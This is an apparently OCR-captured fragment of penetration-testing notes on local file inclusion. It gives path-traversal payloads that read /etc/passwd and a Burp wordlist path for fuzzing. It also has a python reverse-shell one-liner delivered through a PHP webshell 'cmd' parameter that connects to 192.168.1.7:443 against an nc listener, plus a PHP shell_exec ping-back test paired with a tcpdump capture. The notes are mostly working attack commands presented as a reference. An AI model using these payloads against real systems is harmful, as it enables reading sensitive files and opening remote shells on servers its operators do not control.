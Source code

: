 ```

?file=../../../../../../../../../etc/passwd……………. …

(Windows only, more details here)

Reverse Path Truncation:

?file=../../../../ […] ../../../../../etc/passwd

```

### Burp LFI manual injections

use burp intruder to inject sql from wordlists

```
/usr/share/wfuzz/wordlist/traversals.txt
```


### PHP & LFI with python to shell script

Localhost > nc –lvp 443

```
Shell.php?cmd=python%20-c%20'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHPbbscan.txt

Located in viper however you will need to find or create vuln.txt

### PHP Webshell reminders


start a tcpdump capture with ICMP 

```
Root@kali> tcpdump icmp[icmptype]=icmp-echo -vvv -s 0 -X -i any -w ping.pcap

```
then create a ping.txt script to /var/www/html on my localhost

I added the following script to ping.txt

```
<pre style="text-align:left;">

<?php

echo shell_exec('ping -n 1 10.11.0.202');

?>
</pre>

```
